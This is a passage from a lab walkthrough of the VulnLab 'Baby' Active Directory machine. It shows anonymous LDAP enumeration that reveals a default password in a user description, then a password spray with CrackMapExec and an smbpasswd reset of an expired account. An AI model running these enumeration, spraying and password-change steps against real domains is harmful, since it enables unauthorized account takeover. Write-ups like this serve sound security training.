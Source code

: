 
---

While reviewing the user descriptions, we found a password: `BabyStart123!`.

```
destiny@falcon:~/vulnlab.com/Baby-W$ ldapsearch -x -H ldap://10.10.95.143 -D '' -w '' -b "DC=baby,DC=vl" | grep description
description: Built-in account for guest access to the computer/domain
description: All workstations and servers joined to the domain
description: Members of this group are permitted to publish certificates to th
description: All domain users
description: All domain guests
description: Members in this group can modify group policy for the domain
description: Servers in this group can access remote access properties of user
description: Members in this group can have their passwords replicated to all 
description: Members in this group cannot have their passwords replicated to a
description: Members of this group are Read-Only Domain Controllers in the ent
description: Members of this group that are domain controllers may be cloned.
description: Members of this group are afforded additional protections against
description: DNS Administrators Group
description: DNS clients who are permitted to perform dynamic updates on behal
description: Set initial password to BabyStart123!
```

### Initial Access

We performed a password spray attack using the user list we had and the password we just discovered with CrackMapExec. The user `Caroline.Robinson` received the response `STATUS_PASSWORD_MUST_CHANGE`.

<img src="attachments/a3e52eeea2e1212ad19ce6d09833c0d6.png" />

We used the Impacket `smbpasswd` tool to change the password of the user `Caroline.Robinson` to `Password123##`.

```
destiny@falcon:~/vulnlab.com/Baby-W$ smbpasswd -r 10.10.95.143 -U Caroline.Robinson

Old SMB password:
New SMB password:
Retype new SMB password:

Password changed for user Caroline.Robinson
```

We confirmed that our password was changed using CrackMapExec.
